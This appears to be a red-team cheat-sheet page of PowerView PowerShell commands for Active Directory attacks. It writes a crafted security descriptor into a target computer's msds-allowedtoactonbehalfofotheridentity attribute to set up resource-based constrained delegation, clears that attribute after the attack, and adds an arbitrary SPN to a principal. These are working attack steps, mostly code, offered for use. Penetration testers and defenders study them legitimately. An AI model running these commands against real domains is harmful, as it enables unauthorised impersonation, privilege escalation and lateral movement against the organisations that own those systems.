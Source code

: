 
## Configure [[resource-based-constrained-delegation|Resource-Based Constrained Delegation]] from `ComputerA` to `ComputerB`

`ComputerB` is specifying that `ComputerA` is allowed to delegate to it.

Requires `GenericAll`, `GenericWrite`, or `WriteDACL` permission to `ComputerB`.

```powershell
# Get ComputerA's SID
$ComputerASid = Get-DomainComputer ComputerA -Properties objectsid | Select -Expand objectsid

# Build the raw security descriptor with ComputerA as the principal
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerASid))"

# Get the raw bytes for the security descriptor
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

# Set the new security descriptor for 'msds-allowedtoactonbehalfofotheridentity'
Get-DomainComputer ComputerB | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

# (Optional) Confirm security descriptor addition
$RawBytes = Get-DomainComputer ComputerB -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
$Descriptor.DiscretionaryAcl
```

---

## Cleanup After [[resource-based-constrained-delegation|Resource-Based Constrained Delegation Attack]]

Clear the `msds-allowedtoactonbehalfofotheridentity` attribute from the target computer.

```powershell
Get-DomainComputer $TARGET | Set-DomainObject -Clear 'msds-allowedtoactonbehalfofotheridentity'
```

---

## Add a SPN To a Principal

```powershell
Set-DomainObject -Identity $SAM_ACCOUNT_NAME_OF_TARGET_PRINCIPAL -Set @{serviceprincipalname='$SPN'} [-Credential $CREDENTIAL]
```

- Example `$SPN`: `HOST/blahblah`
	- Doesn't have to be anything legitimate
- Example `$CREDENTIAL`: [[powershell#Create a Credential PSCredential Object|PowerShell PSCredential Object]]

---